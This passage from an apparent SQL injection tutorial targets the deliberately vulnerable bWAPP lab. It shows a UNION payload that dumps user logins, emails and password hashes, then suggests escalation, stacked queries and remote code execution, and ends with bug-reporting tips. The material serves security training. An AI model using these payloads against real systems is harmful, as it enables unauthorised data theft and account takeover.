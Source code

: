 #### Dumping the Users Table

The **users** table has 11 columns, but we only have four columns to work with. I am mostly interested in the username, password, email, and user permissions, so let's select those.

{:style="overflow: auto; white-space: nowrap;"}
`?title='UNION+SELECT+1,login,admin,password,email,6,7+FROM+users--+&action=1`

Results:

login | admin | email                    | password
------|-------|--------------------------|-----------------------------------------
A.I.M | 1     | bwapp-aim@mailinator.com | 6885858486f31043e5839c735d99457f045affd0
bee   | 1     | bwapp-bee@mailinator.com | 6885858486f31043e5839c735d99457f045affd0

A malicious user could attempt to decrypt the hashed passwords with tools like John the Ripper or THC Hydra. 

#### Conclusion

If you're interested in continuing, a few things you could try are:

- **Continue dumping tables and columns** - Check out other columns in the users table. I've not tested it, but I'm curious if secret, activation_code, or reset_code could be used to take over another user's account.
- **Stacked queries** - Try to append an UPDATE or INSERT statement to the SELECTION statement.
- **Escalate privileges** - Create a non-admin user and attempt to escalate their privileges to admin using SQL injection.
- **Remote code execution** - Execute code on the server through SQL injection.
- **Increase the security setting** - bWAPP has low, medium, and high security options. We have been testing on low, but most applications are more secure.

## Reporting

When reporting vulnerability bugs, follow the guidelines provided by the company you work for or the platform you're testing on. E.g. Bugcrowd.

Include detailed steps to reproduce the bug. Don't make any assumptions about the reader's experience with security vulnerabilites.

Describe the bug in terms of its business impact, rather than the technical details of its exploitation.

Take the time to proofread your report. Is it obvious which objects or people you're talking about when you refer to them?

## Resources

We have only covered a basic example of SQL injection, which does not account for custom error messages, out-of-band injection, partial validation, intrusion prevention systems, or other advanced defenses that are encounter in real-world testing. See the resources provided below to continue learning and become a more efficient tester.

All resources are free, apart from _SQL Injection Attacks and Defense, 2nd ed_. Most items are followed by a year in parenthesis which represents the last year that resource was updated as of the date of this publication.
